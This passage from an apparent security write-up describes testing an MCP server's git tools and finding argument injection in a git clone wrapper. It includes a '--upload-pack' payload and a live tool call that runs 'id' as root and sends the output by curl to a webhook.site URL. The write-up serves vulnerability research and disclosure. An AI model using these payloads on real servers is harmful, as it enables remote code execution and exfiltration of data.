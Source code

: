 ```hljs shell
      g_clone '{"repo_url": "", "target_dir?": ""}'
   2. Pull latest changes from GitHub
      g_pull '{"repo_dir": ""}'
   3. Push changes to GitHub
      g_push '{"repo_dir": "", "message": ""}'
```

We have some options to interact with GitHub repositories, like cloning a URL into some directory. While already sounding like potential for path traversal in the `target_dir`, it is also likely that the `git clone ...` shell command is used, which could hint at Command Injection. From testing, there are no errors when specifying a `"target_dir": "../../../../tmp/somewhere"`, but we also don't know anything about the underlying system. This makes it hard to confirm let alone exploit this potential arbitrary file write. Command Injection would be easy impact, but after trying a bunch of characters like ```'";&$()`` ```, they all seem to be escaped correctly in an error message, so these are likely not being interpreted as special shell characters.

The code may look something like this:

```hljs py
import subprocess

subprocess.run(["git", "clone", repo_url, target_dir])
```

The array in Python separates arguments cleanly, eliminating any possibilities for command injection. But can still _inject arguments_. Specifically, we can look at `git clone --help` to figure out what interesting options we can pass to confuse the command into doing something that will help us further.

There's a great collection of [Argument Injection Vectors](https://sonarsource.github.io/argument-injection-vectors/ "") on which you can search for `git-clone`. This links to a [writeup by SonarSource](https://www.sonarsource.com/blog/securing-developer-tools-argument-injection-in-vscode/#exploiting-an-argument-injection-on-a-git-clone-operation "") attacking Visual Studio Code which was doing a similar operation on user input. Their provided payloads can be simplified to the following in our case:

```hljs sh
git clone '-ush -c "id>/tmp/pwned"' 'file:///tmp/anywhere'
```

Note the use of `''` around arguments to ensure they are interpreted as single arguments in bash, simulating our case as best as possible. Using the `-u` ( `--upload-pack`) argument, we can provide a local command to run while handling _local protocols_, such as `file://`. Passing the above two arguments to our `g_clone` tool, it should act the same:

```hljs shell
$ mcpc http://174.███.██.██ g_clone '{"repo_url": "-ush -c \"id|curl https://webhook.site/41██████-████-████-████-██████████2f -d@-\"", "target_dir": "file:///tmp/anything"}'

Cloning into 'anything'...
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed

  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
100   194    0   156  100    38    500    121 --:--:-- --:--:-- --:--:--   623
fatal: protocol error: bad line length character: This
```

Sure enough, it writes the output of `id` to a `curl` that exfiltrates it in a way that we can read it:

![Screenshot of webhook.site callback with root id output](https://blog.jaisal.dev/assets/mcp-git-clone-callback.png)

> `uid=0(root) gid=0(root) groups=0(root)`

There's no output better than that 🥹.

#### Strange SSRF with `host__` arguments
